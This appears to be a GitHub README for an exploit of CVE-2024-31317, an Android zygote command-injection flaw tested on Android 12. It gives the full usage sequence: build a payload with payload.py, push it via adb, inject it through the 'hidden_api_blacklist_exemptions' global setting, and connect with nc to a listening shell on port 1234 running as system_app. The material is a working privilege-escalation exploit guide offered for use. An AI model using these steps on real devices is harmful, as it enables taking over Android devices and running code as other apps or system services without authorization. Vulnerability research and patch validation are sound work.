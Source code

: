 # Zygote Injection (CVE-2024-31317)

This is an exploit for CVE-2024-31317. It allows passing arbitrary commands to the zygote process.
This effectively allows running as any other app or system server under any selinux policy we want.
The only restriction is zygote does not luanch processess as root.

This exploit is tested on android 12 ingots2 image.

## Using Exploit

Adjust the arguments you want to send to zygote in `payload.py` in the `args` variable.

Then run:
```sh
python payload.py
```

To generate a file called payload which contains a settings value which will cause command injection.


Use adb to push the payload to the device:
```sh
adb push payload /data/local/tmp
```

Then trigger the command injection exploit:
```sh
settings put global hidden_api_blacklist_exemptions "$(cat /data/local/tmp/payload)"                                                                                                               
```


The default arguments spawn a shell listening on port 1234 running as a `system_app` uid and selinux context.

Connect to the shell using the command:
```sh
nc localhost 1234
```
